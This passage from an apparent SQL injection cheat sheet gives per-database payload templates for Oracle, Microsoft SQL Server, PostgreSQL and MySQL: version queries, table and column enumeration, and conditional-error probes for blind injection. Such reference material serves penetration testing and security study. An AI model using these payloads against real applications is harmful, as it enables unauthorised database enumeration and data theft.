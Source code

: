**MySQL:**
```sql
SELECT @@version
```

## Database Contents

You can list the tables that exist in the database, and the columns that those tables contain.

**Oracle:**
```sql
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
```

**Microsoft:**
```sql
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

**PostgreSQL:**
```sql
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

**MySQL:**
```sql
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

## Conditional Errors

You can test a single boolean condition and trigger a database error if the condition is true.

**Oracle:**
```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
```

**Microsoft:**
```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
```

**PostgreSQL:**
```sql
1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)
```

**MySQL:**
```sql
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```

## Extracting Data via Visible Error Messages

